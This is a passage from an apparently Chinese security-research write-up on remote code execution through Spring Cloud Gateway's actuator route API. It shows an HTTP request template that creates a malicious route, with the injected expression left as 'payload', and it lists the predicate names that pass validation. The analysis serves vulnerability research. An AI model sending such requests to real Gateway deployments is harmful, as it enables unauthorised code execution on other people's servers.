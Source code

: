 #### 3. 小结

无回显链，只要 FIlter 名字合法绕过限制，就能触发RCE。

### 5.1.2 predicates 利用链

在分析调用链的时候，猜测应该还有一条链。马上根据官网提示，创建路由 <https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/#creating-and-deleting-a-particular-route>写个测试下。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json

{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"payload"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

刷新路由，是能触发 RCE。

![5.1.1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-39f42b2adf811482af88b074c49a8ffbcfc4c18a.png)

#### 1. 研究限制点：

和 filters 限制类似。spring-cloud-gateway 在保存路由定义信息时，校验 predicates 的 name 参数，是否与内置的工厂名字相同。也就是在前置知识中路由信息类提到的各种工厂名称。

```java
// 校验路由匹配信息 name 
private boolean isAvailable(PredicateDefinition predicateDefinition) {
    return routePredicates.stream()
            .anyMatch(routePredicate -> predicateDefinition.getName().equals(routePredicate.name()));
}
```

同样梳理出了所有合法过滤器名称。

```txt
After
Before
Between
Cookie
Header
Host
Method
Path
Query
ReadBody
RemoteAddr
Weight
CloudFoundryRouteService
```
